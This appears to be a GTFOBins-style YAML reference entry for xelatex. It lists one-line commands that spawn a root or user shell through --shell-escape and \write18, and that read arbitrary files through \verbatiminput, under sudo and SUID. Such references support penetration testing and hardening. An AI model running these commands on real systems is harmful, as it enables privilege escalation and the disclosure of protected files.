 functions:
  shell:
    - code: |
        xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  file-read:
    - description: The read file will be part of the output.
      code: |
        xelatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
  sudo:
    - description: The read file will be part of the output.
      code: |
        sudo xelatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
    - code: |
        sudo xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  limited-suid:
    - code: |
        ./xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
---
